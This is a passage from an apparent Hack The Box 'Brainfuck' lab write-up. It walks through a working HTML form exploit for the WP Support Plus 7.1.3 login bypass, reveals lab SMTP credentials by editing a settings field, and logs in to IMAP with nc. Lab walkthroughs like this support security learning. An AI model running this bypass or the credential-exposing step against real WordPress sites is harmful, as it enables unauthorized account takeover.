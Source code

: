 ```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Brainfuck]
└─$ searchsploit WordPress Plugin WP Support Plus 7.1.3     
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - Privilege Escala | php/webapps/41006.txt
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - SQL Injection    | php/webapps/40939.txt
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

The first one sounds nice, I built the PoC for our target:

```html
<html>
	<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
		Username: <input type="text" name="username" value="admin">
		<input type="hidden" name="email" value="orestis@brainfuck.htb">
		<input type="hidden" name="action" value="loginGuestFacebook">
		<input type="submit" value="Login">
	</form>
</html>
```

Opening it in a browser and hitting the login button will bypass the Wordpress login and get access to the dasboard. The problem is that the templates files are not writtable so we can't get RCE with this.

After looking around I found that Easy WP SMTP plugin is installed. Checking the plugin settings and changing the password field from the type `password` to `text` will reveal all we need to login to the SMTP service: `orestis@brainfuck.htb:kHGuERB29DNiNE`.


### sup3rs3cr3t.brainfuck.htb

This page looks like a forum. It allow new users to register so we can login to it. The forum only allows `brainfuck.htb` emails to register and looks like email confirmation is required to participate in the forum what is not good for us.

## Port 143

Let's try to login to the IMAP service with the credentials we found:

```bash
┌──(kali㉿kali)-[~/Desktop/HTB/Brainfuck]
└─$ nc -vn <MACHINE_IP> 143
(UNKNOWN) [<MACHINE_IP>] 143 (imap2) open
* OK [CAPABILITY IMAP4rev1 LITERAL+ SASL-IR LOGIN-REFERRALS ID ENABLE IDLE AUTH=PLAIN] Dovecot ready.
A1 LOGIN orestis kHGuERB29DNiNE
A1 OK [CAPABILITY IMAP4rev1 LITERAL+ SASL-IR LOGIN-REFERRALS ID ENABLE IDLE SORT SORT=DISPLAY THREAD=REFERENCES THREAD=REFS THREAD=ORDEREDSUBJECT MULTIAPPEND URL-PARTIAL CATENATE UNSELECT CHILDREN NAMESPACE UIDPLUS LIST-EXTENDED I18NLEVEL=1 CONDSTORE QRESYNC ESEARCH ESORT SEARCHRES WITHIN CONTEXT=SEARCH LIST-STATUS BINARY MOVE SPECIAL-USE] Logged in

```

